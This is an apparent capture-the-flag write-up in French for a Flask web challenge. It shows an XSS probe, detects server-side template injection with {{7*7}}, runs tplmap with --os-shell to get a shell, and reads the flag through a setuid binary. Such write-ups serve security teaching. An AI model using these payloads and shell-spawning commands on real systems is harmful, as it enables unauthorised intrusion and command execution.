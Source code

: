 ** WEB - Mr President - 2500 **

Le site mis à disposition est un générateur de texte sur une image de Trump.

__Résolution :__

Le mot qui est passé à la variable **name** en GET est affiché en gros sur l'image :

```
http://mrpresident.sthack.fr/banish?name=Ryan
```

On repère rapidement une XSS :

```javascript
http://mrpresident.sthack.fr/banish?name=<script>alert(1)</script>
```

Aucun formulaire de contact donc nous passons à autre chose.

Si nous appelons une page qui n'existe pas, le site nous retourne comme information qu'il est développé avec flask.

On tente :

```
http://mrpresident.sthack.fr/banish?name=Ryan{{7*7}}
```

Nous obtenons comme retour  : Ryan49

Nous avons donc une template injection.

On récupère un shell avec [TPLMAP](https://github.com/epinna/tplmap) :

```BASH
./tplmap.py --os-shell -u 'http://mrpresident.sthack.fr/banish?name=Ryan'
```

On cherche le flag :


```BASH
posix-linux2 $ ls -lash /flag/is/here
total 28
     4 drwxr-xr-x    1 root     root        4.0K Apr  5 12:35 .
     4 drwxr-xr-x    1 root     root        4.0K Apr  5 12:35 ..
     4 -r--------    1 root     root          17 Mar  4 23:09 flag
     4 -rw-r--r--    1 root     root         198 Mar  4 23:13 getflag.c
    12 -rwsr-xr-x    1 root     root       10.5K Apr  5 12:35 runme
```

On affiche le flag :

```BASH
posix-linux2 $ cd /flag/is/here/;./runme
Y0u_G0t_TrUmp3d!
```



By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```